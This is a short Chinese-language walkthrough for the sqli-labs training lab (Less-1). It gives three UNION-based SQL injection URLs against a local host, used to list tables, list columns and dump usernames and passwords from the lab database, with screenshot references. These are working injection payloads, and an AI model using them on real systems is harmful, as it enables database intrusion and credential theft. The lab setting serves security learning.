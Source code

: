 

**获取所有表名**:`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' --+`
![](sqli-labs/1779065-20210207214940911-1079165662.png)



**获取所有字段名：**`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`
![](sqli-labs/1779065-20210207215730543-2030387739.png)



**获取账号密码**:`http://127.0.0.1/sqli-labs-master/Less-1/?id=' union select 1,2,group_concat(username,password) from security.users --+`
![](sqli-labs/1779065-20210207223028146-910072534.png)
